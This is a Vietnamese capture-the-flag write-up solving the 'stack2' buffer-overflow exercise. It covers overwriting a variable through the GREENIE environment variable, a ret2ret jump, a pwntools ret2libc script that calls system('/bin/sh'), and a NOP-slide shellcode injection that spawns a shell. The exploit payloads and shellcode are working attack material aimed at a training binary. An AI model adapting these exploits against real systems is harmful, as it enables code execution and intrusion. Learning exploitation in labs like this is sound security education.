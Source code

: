 # stack2

## description

Chạy thử chương trình thì báo lỗi vì chưa cài đặt biến môi trường tên `GREENIE`. Cùng ngó thử qua hàm main nhé.
![main1](main1.png)

![main2](main2.png)

Đọc qua ta thấy ngay lấy giá trị của biến môi trường `GREENIE(0x80485e0)` gán vào biến `variable([esp+0x5c])`. Sau đó, dùng strcpy để đưa giá trị từ `variable` tức là `GREENIE` vào `buf([esp+0x18])`. Cuối cùng so sánh giá trị ở biến `modified([esp+0x58])` với 0xd0a0d0a. Vậy ta cần tìm cách để cho `modified = 0xd0a0d0a`.

## Solution

### Buffer overflow

biến `modified` ở sau `buf`, nên phần `padding: 0x58-0x18 = 0x40`. bây giờ mình tạo một `environment variable` có tên là `GREENIE` nằm trong cùng đường dẫn với source. Như sau:

`export GREENIE= $(python -c ‘print “A”*64 + “\x0a\x0d\x0a\x0d”')`

![run](run.png)

### Ret2ret

Cũng tương tự, bài này có thể giải quyết bằng cách control EIP để jump về nhánh if chúng ta cần. Dùng cyclic và gdb pwndbg tìm được padding size = 84 bytes.
Payload: `export GREENIE=$(python -c 'print "a"*84+"\xef\x84\x04\x08"')`

![ret2ret](ret2ret.png)

## Spawn shell

vì vẫn dùng chung libc nên system address,&"/bin/sh" ko đổi, thay đổi script một chút là được.

### system()

```python
#!/usr/bin/python3
from pwn import *

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = b"a"*84   #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)
#run process, export GREENIE = payload
p = process(['./stack2'], env={'GREENIE': payload})
p.interactive()
```

### inject shellcode

Bài này vấn đề lớn nhất chắc là tìm được offset phù hợp và nop_slide size. Sau một hồi thử thay vài số thì mình đã tìm được.

```python
#!/usr/bin/python3
from pwn import *

padding = b"a"*84
eip = p32(0xffffd2c0+1000) # esp addr + offset nop_slide

nop_slide = b"\x90"*2000

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"
#run process, export GREENIE = payload
payload = padding + eip + nop_slide + shellcode
f = open("env", "wb")
f.write(payload)
p = process(['./stack2'], env={'GREENIE': payload})
p.interactive()
```

![shell](shell.png)